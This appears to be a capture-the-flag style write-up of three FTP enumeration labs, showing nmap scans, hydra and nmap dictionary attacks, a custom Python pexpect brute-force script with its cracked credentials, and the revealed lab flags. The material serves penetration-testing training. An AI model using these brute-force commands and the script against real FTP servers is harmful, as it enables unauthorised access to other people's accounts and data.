 # FTP Enum

**`FTP`** (**F**ile **T**ransfer **P**rotocol) - a *client-server* protocol used to transfer files between a network using TCP/UDP connections.

It requires a command channel and a data channel.

Default FTP port is `21`, opened when FTP is activated for sharing data.

```bash
sudo nmap -p21 -sV -sC -O <TARGET_IP>
```

## Lab 1

>  🔬 [ProFTP Recon: Basics](https://attackdefense.pentesteracademy.com/challengedetails?cid=518)
>
>  - Target IP: `192.217.238.3`
>  - Enumeration of [ProFTP](http://www.proftpd.org/) server

```bash
ip -br -c a
```

```bash
eth1@if170718    UP             192.217.238.2/24
```

- Target IP is `192.217.238.3`

```bash
nmap 192.217.238.3
```

```bash
21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.217.238.3
```

```bash
21/tcp open  ftp     ProFTPD 1.3.5a
MAC Address: 02:42:C0:D9:EE:03 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 2.6.32 - 3.10 (96%), Linux 3.4 - 3.10 (95%), Synology DiskStation Manager 5.2-5644 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Netgear RAIDiator 4.2.28 (94%), Linux 2.6.32 - 2.6.35 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Unix
```

![nmap -p21](.gitbook/assets/image-20230215114930223.png)

> 📌 FTP server version `ProFTPD 1.3.5a`.

### [ftp](https://linux.die.net/man/1/ftp)

- Try `anonymous:anonymous` login

```bash
ftp 192.217.238.3
# anonymous login failed
```

- Use `hydra` with some users/passwords word lists to check if any credentials work with the ftp server 

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/da
ta/wordlists/unix_passwords.txt 192.217.238.3 -t 4 ftp
```

```bash
[DATA] max 16 tasks per 1 server, overall 16 tasks, 7063 login tries (l:7/p:1009), ~442 tries per task
[DATA] attacking ftp://192.217.238.3:21/
[21][ftp] host: 192.217.238.3   login: sysadmin   password: 654321
[21][ftp] host: 192.217.238.3   login: rooty   password: qwerty
[21][ftp] host: 192.217.238.3   login: demo   password: butterfly
[21][ftp] host: 192.217.238.3   login: auditor   password: chocolate
[21][ftp] host: 192.217.238.3   login: anon   password: purple
[21][ftp] host: 192.217.238.3   login: administrator   password: tweety
[21][ftp] host: 192.217.238.3   login: diag   password: tigger
1 of 1 target successfully completed, 7 valid passwords found
```

![hydra user:password attack](.gitbook/assets/image-20230215115946164.png)

> 📌 Found credentials are:
>
> `sysadmin:654321`
> `rooty:qwerty`
> `demo:butterfly`
> `auditor:chocolate`
> `anon:purple`
> `administrator:tweety`
> `diag:tigger`

- Use [nmap ftp-brute script](https://nmap.org/nsedoc/scripts/ftp-brute.html) to find the `sysadmin`'s password

```bash
echo "sysadmin" > users
```

```bash
nmap --script ftp-brute --script-args userdb=/root/users -p21 192.217.238.3
```

```bash
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     sysadmin:654321 - Valid credentials
|_  Statistics: Performed 23 guesses in 6 seconds, average tps: 3.8
```

- Extract the 7 flags hidden on the server by logging in to the `ftp` server with each found user

```bash
ftp 192.217.238.3
```

```
ftp> ls
ftp> get secret.txt
ftp> exit

root@attackdefense:~# cat secret.txt 
```

<details>
<summary>Reveal Flag - sysadmin flag is: 🚩</summary>
`260ca9dd8a4577fc00b7bd5810298076`

</details>

<details>
<summary>Reveal Flag - rooty flag is: 🚩</summary>

`e529a9cea4a728eb9c5828b13b22844c`

</details>

<details>
<summary>Reveal Flag - demo flag is: 🚩</summary>

`d6a6bc0db10694a2d90e3a69648f3a03`

</details>

<details>
<summary>Reveal Flag - auditor flag is: 🚩</summary>

`098f6bcd4621d373cade4e832627b4f6`

</details>

<details>
<summary>Reveal Flag - anon flag is: 🚩</summary>

`1bc29b36f623ba82aaf6724fd3b16718`

</details>

<details>
<summary>Reveal Flag - administrator flag is: 🚩</summary>

`21232f297a57a5a743894a0e4a801fc3`

</details>

<details>
<summary>Reveal Flag - diag flag is: 🚩</summary>

`12a032ce9179c32a6c7ab397b9d871fa`

</details>

## Lab 2

>  🔬 [VSFTPD Recon: Basics](https://attackdefense.pentesteracademy.com/challengedetails?cid=519)
>
>  - Target IP: `192.119.169.3`
>  - Enumeration of [vsftpd](https://security.appspot.com/vsftpd.html) server

```bash
ip -br -c a
```

```bash
eth1@if170803   UP  192.119.169.2/24
```

- Target IP is `192.119.169.3`

```bash
nmap 192.119.169.3
```

```bash
21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.119.169.3
```

```bash
21/tcp open  ftp     vsftpd 3.0.3
```

![](.gitbook/assets/image-20230215130759212.png)

> 📌 FTP server version `vsftpd 3.0.3`.

- Use [nmap ftp-anon script](https://nmap.org/nsedoc/scripts/ftp-anon.html) to check `anonymous` user login

```bash
nmap --script ftp-anon -p21 192.119.169.3
```

```bash
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Dec 18  2018 flag
|_drwxr-xr-x    2 ftp      ftp          4096 Dec 18  2018 pub
```

> 📌 Anonymous FTP login allowed

```bash
ftp 192.119.169.3
# Use anonymous:anonymous to login
```

```bash
Name (192.119.169.3:root): anonymous
    331 Please specify the password.
Password:
    230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
ftp> get flag
ftp> exit

root@attackdefense:~# cat flag 
```

<details>
<summary>Reveal Flag: 🚩</summary>

`4267bdfbff77d7c2635e4572519a8b9c`

</details>

------

## Lab 3

>  🔬 [VSFTPD Recon: Dictionary Attack](https://attackdefense.pentesteracademy.com/challengedetails?cid=520)
>
>  - Target IP: `192.14.30.3`
>  - Dicotionary attack on `vsftpd` server
>  - *FTP server terminates the session after 3 attemps*

```bash
ip -br -c a
```

```bash
eth1@if170888   UP   192.14.30.2/24 
```

- Target IP is `192.14.30.3`

```bash
nmap 192.14.30.3
```

```bash
21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.14.30.3
```

```bash
21/tcp open  ftp     vsftpd 3.0.3
```

```bash
nmap --script ftp-brute --script-args userdb=/root/users -p21 192.14.30.3
```

```bash
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     billy:carlos - Valid credentials
|_  Statistics: Performed 78 guesses in 55 seconds, average tps: 1.5
```

> 📌 *billy*'s password is `carlos`

- A custom script to attemp the logins is required if automated dictionary attack do not work, since the server terminates the sessions after 3 login attempts.
- `e.g.` python script:

```bash
nano billy.py
```

```python
import pexpect
import sys
username=sys.argv[2]
password_dict=sys.argv[3]

# Loading the password dictionary and Striping \n
lines = [line.rstrip('\n') for line in open(password_dict)]

itr = 0
# Iterating over dictionary
for password in lines:
	child = pexpect.spawn ('ftp '+sys.argv[1])
	child.expect ('Name .*: ')
	child.sendline (username)
    print "Trying with password: ",password
	child.expect ('Password:')
	child.sendline (password)
	i = child.expect (['Login successful', 'Login failed'])
	if i==1:
		#print('Login failed')
		child.kill(0)
	elif i==0:
		print "Login Successful for ",password
		print child.before
		break
```

```bash
python billy.py 192.14.30.3 billy /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

```bash
Login Successful for  carlos
```

- Fetch the flag

```bash
ftp 192.14.30.3

ftp> ls
ftp> get flag
ftp> exit

root@attackdefense:~# cat flag
```

<details>
<summary>Reveal Flag: 🚩</summary>

`c07c7a9be16f43bb473ed7b604295c0b`

</details>

------

